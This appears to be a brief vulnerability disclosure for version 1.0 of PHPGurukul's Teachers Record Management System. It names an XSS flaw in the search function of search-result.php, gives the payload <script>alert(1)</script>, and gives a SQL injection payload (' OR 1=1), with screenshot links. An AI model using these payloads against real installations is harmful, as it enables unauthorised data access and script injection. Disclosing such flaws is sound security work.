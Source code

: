 + version : 1.0
+ vuln issue : XSS
+ Vendor URL : https://phpgurukul.com/teachers-record-management-system-using-codeigniter/
+ Tested on : XAMPP + win10

+ search-result.php -> search function
+ payload : <script>alert(1)</script>
![image](https://github.com/Trinity-SYT-SECURITY/XSS_vuln_issue/assets/96654161/bf54a314-f0df-4a33-bcdc-4bc608f8eed1)
![image](https://github.com/Trinity-SYT-SECURITY/XSS_vuln_issue/assets/96654161/0a6128ca-fcb2-451b-9e41-0b40892042fa)

+ vuln issue : SQL injection
+ payload : ' OR 1=1

![image](https://github.com/Trinity-SYT-SECURITY/XSS_vuln_issue/assets/96654161/5e4f2fd3-ce26-4a4c-80b6-87d2e0146044)
